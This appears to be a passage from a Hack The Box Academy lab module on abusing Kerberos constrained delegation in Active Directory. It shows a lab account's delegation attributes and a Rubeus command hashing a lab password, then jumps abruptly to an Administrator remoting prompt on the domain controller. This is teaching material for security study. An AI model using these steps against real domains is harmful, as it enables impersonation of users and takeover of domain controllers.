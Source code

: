 ```powershell-session
whenchanged                   : 10/13/2022 9:53:09 PM
instancetype                  : 4
usncreated                    : 135866
objectguid                    : b89f0cea-4c1a-4e92-ac42-f70b5ec432ff
lastlogoff                    : 1/1/1600 12:00:00 AM
msds-allowedtodelegateto      : {http/DC1.eagle.local/eagle.local, http/DC1.eagle.local, http/DC1,
                                http/DC1.eagle.local/EAGLE...}
objectcategory                : CN=Person,CN=Schema,CN=Configuration,DC=eagle,DC=local
dscorepropagationdata         : 1/1/1601 12:00:00 AM
serviceprincipalname          : {cvs/dc1.eagle.local, cvs/dc1}
givenname                     : web service
lastlogon                     : 10/14/2022 2:31:39 PM
badpwdcount                   : 0
cn                            : web service
useraccountcontrol            : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, TRUSTED_TO_AUTH_FOR_DELEGATION
whencreated                   : 10/13/2022 8:32:35 PM
primarygroupid                : 513
pwdlastset                    : 10/13/2022 10:36:04 PM
msds-supportedencryptiontypes : 0
usnchanged                    : 143463
```

![Get Trusted for Authentication](https://academy.hackthebox.com/storage/modules/176/A9/ConsDelegation.png)

We can see that the user `web_service` is configured for delegating the HTTP service to the Domain Controller `DC1`. The HTTP service provides the ability to execute `PowerShell Remoting`. Therefore, any threat actor gaining control over `web_service` can request a Kerberos ticket for any user in Active Directory and use it to connect to `DC1` over `PowerShell Remoting`.

Before we request a ticket with `Rubeus` (which expects a password hash instead of cleartext for the `/rc4` argument used subsequently), we need to use it to convert the plaintext password `Slavi123` into its `NTLM` hash equivalent:

  Kerberos Constrained Delegation

```powershell-session
PS C:\Users\bob\Downloads> .\Rubeus.exe hash /password:Slavi123

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1


[*] Action: Calculate Password Hash(es)

[*] Input password             : Slavi123
[*]       rc4_hmac             : FCDC65703DD2B0BD789977F1F3EEAECF

[!] /user:X and /domain:Y need to be supplied to calculate AES and DES hash types!
```


[dc1]: PS C:\Users\Administrator\Documents> hostname
[dc1]: PS C:\Users\Administrator\Documents> whoami
[dc1]: PS C:\Users\Administrator\Documents>